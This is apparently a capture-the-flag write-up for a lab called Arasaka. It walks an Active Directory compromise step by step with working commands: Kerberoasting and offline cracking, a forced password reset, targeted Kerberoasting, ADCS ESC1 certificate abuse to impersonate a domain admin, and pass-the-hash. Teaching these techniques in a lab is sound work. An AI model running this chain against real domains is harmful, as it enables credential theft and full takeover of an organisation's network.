# Hack Smarter Arasaka Full Walkthrough

## Scenario

### Starting Credentials

```
faraday:hacksmarter123
```

### Objective and Scope

You are a member of the Hack Smarter Red Team. This penetration test will operate under an assumed breach scenario, starting with valid credentials for a standard domain user, `faraday`.

The primary goal is to simulate a realistic attack, identifying and exploiting vulnerabilities to escalate privileges from a standard user to a Domain Administrator.

## Initial Recon

We use nmap to do some initial enumeration. From the results we see that common Windows Domain Controller ports are open. Exposed services include DNS (53), Kerberos (88), SMB (159/445), LDAP and LDAPS (389/636/3268/3269), RDP (3389) and WinRM (5985).

```
Nmap scan report for 10.1.189.74
Host is up (0.11s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-04 19:18:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.hacksmarter.local
| Issuer: commonName=hacksmarter-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-21T15:35:32
| Not valid after:  2026-09-21T15:35:32
| MD5:   fae9:1340:b0a8:16fc:0420:5560:a2c9:6fed
|_SHA-1: affe:d211:3720:65b4:1ee7:d8da:1a58:6825:5903:d150
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.hacksmarter.local
| Issuer: commonName=hacksmarter-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-21T15:35:32
| Not valid after:  2026-09-21T15:35:32
| MD5:   fae9:1340:b0a8:16fc:0420:5560:a2c9:6fed
|_SHA-1: affe:d211:3720:65b4:1ee7:d8da:1a58:6825:5903:d150
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.hacksmarter.local
| Issuer: commonName=hacksmarter-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-21T15:35:32
| Not valid after:  2026-09-21T15:35:32
| MD5:   fae9:1340:b0a8:16fc:0420:5560:a2c9:6fed
|_SHA-1: affe:d211:3720:65b4:1ee7:d8da:1a58:6825:5903:d150
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.hacksmarter.local
| Issuer: commonName=hacksmarter-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-21T15:35:32
| Not valid after:  2026-09-21T15:35:32
| MD5:   fae9:1340:b0a8:16fc:0420:5560:a2c9:6fed
|_SHA-1: affe:d211:3720:65b4:1ee7:d8da:1a58:6825:5903:d150
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-02-04T19:19:23+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Issuer: commonName=DC01.hacksmarter.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-20T02:51:46
| Not valid after:  2026-03-22T02:51:46
| MD5:   c15b:e7bf:300c:7994:c7c0:c1a5:2fcd:928c
|_SHA-1: 97ac:c4b4:fb84:3417:e8fb:e9b1:a5ae:4357:bb1f:12e9
| rdp-ntlm-info:
|   Target_Name: HACKSMARTER
|   NetBIOS_Domain_Name: HACKSMARTER
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hacksmarter.local
|   DNS_Computer_Name: DC01.hacksmarter.local
|   Product_Version: 10.0.20348
|_  System_Time: 2026-02-04T19:18:43+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time:
|   date: 2026-02-04T19:18:44
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

```

Since we already have valid domain credentials, I enumerated SMB shares for any exposed data. Only default administrative shares were available, so I pivoted to user/domain enumeration.

With credentials, `nxc --users` can query domain user information (via SMB/LDAP-backed enumeration), giving a reliable starting list for Kerberos attacks like Kerberoasting.

```
nxc $target -u 'faraday' -p 'hacksmarter123' --users
```



## Access as alt.svc

Now we have a list of valid usernames, we can try to do Kerberoasting.

Kerberoasting is an Active Directory technique where a domain user requests a Kerberos service ticket (TGS) for an account that has an SPN (i.e., a service account). The ticket is encrypted using the service account’s password-derived key, so we can extract it and crack it offline to recover the service account password.

```
impacket-GetUserSPNs hacksmarter.local/faraday:hacksmarter123 -dc-ip $target -request
```



We managed to obtain a hash. We can now use JohnTheRipper to attempt to crack this hash.

```
john --wordlist=/usr/share/wordlist/rockyou.txt kerb.hash
```



## BloodHound

After checking access from the `alt.svc` we can't seem to find anyway to get a shell. So the next step is to use **BloodHound** to collect AD relationship data and query it for any misconfigurations.

From Kali, I used `nxc` to collect the data over LDAP.

```
nxc ldap $target -u 'faraday' -p 'hacksmarter123' --dns-server $target --bloodhound --collection All
```

This produces a zip file containing the BloodHound JSON output.

Once we start BloodHound the first thing we should do is add `faraday` and `alt.svc` into the owned group. When we check the outbound object controls for `alt.svc`, we see that it has the `GenericAll` permission over `yorinobu`.


## Access as yorinobu

Since we have the `GenericAll` permission over `yorinobu` this allows us to change the password of the user. We can use the following resources to achieve this. I chose to use the net rpc method.

```
net rpc password 'yorinobu' 'Password1' -U 'hacksmarter.local'/'alt.svc'%'REDACTED' -S 'DC01.hacksmarter.local'
```



## Access as Soulkiller.svc

From further Bloodhound analysis we see that `yorinobu` has `GenericWrite` permission to `Soulkiller.svc`. This allows a Targeted Kerberoast attack on `Soulkiller.svc`.


Because we have **GenericWrite** on `Soulkiller.svc`, we can modify attributes on the user object, specifically the SPN. By adding an SPN, the account becomes a Kerberoasting target: we request the TGS and crack the ticket offline to obtain the service account password.

We can run the following command to obtain the TGS ticket which then can be attempted to crack offline.

```
python3 targetedKerberoast.py -v -d 'hacksmarter.local' -u 'yorinobu' -p 'Password1'
```





We check the credentials and we can get a shell using WinRM. However after further enumeration, we weren't able to escalate privileges this way.



## Shell as the_emperor

Looking back at the BloodHound data. We see that `Soulkiller.svc` is actually a member of the `CERTIFICATE SERVICE DCOM ACCESS` group. Members of this group are allowed to connect to Certification Authorities in the enterprise. So we can check for potentially misconfigured certificates.

To do this we can use Certipy to search for this. The following command can help us achieve this.

```
certipy-ad find -vulnerable -u soulkiller.svc@hacksmarter.local -p 'REDACTED' -dc-ip $target 
```


The `AI_Takeover` template seems to be vulnerable to ESC1 attacks. ESC1 is an ADCS template misconfiguration where low-privileged users can enroll in a template that allows client authentication and lets the requester supply an arbitrary subject (e.g., UPN). This can be abused to request a certificate for a privileged account and authenticate as that account via certificate-based logon.

 From our BloodHound analysis we know that the user `the_emperor` is a domain admin so we will target this user. The following command can be used to request a certificate from the vulnerable `AI_Takeover` template while supplying `the_emperor`’s UPN, effectively impersonating that account via ESC1.

```
certipy-ad req -u 'soulkiller.svc' -p 'MYpassword123#' -dc-ip $target -target 'DC01.hacksmarter.local' -ca 'hacksmarter-DC01-CA' -template 'AI_Takeover' -upn 'the_emperor@hacksmarter.local' -sid 'S-1-5-21-3154413470-3340737026-2748725799-1601'
```

Then we can authenticate as `the_emperor` using the certificate and obtain the NT hash



We can then pass the hash and obtain a evil-winrm session to read the root flag.


